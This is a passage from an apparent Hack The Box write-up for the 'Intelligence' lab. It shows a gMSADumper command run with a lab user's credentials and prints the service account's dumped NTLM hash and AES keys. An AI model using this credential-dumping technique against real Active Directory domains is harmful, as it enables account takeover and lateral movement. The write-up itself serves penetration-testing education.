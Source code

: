 !["Reading password"](./imgs/assets-intelligence/readpass-bloodhound.png)

Bloodhound recommands we use: https://github.com/micahvandeusen/gMSADumper

!["Dumping password"](./imgs/assets-intelligence/password-dumper.png)

```bash
ma1ware@shadow:~/pentest/htb/boxes/Intelligence/gMSADumper$ python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d intelligence.htb
Users or groups who can read password for svc_int$:
 > DC$
 > itsupport
svc_int$:::fb49fcd5ffc6fefa70503e08c9cd8261
svc_int$:aes256-cts-hmac-sha1-96:7780ba9c60cac7b51f89a4faee199cb103b350082fdac5f7c412fd024d0fc5e6
svc_int$:aes128-cts-hmac-sha1-96:de0b7110639ccbcd2cf195840d6b3ca7
```
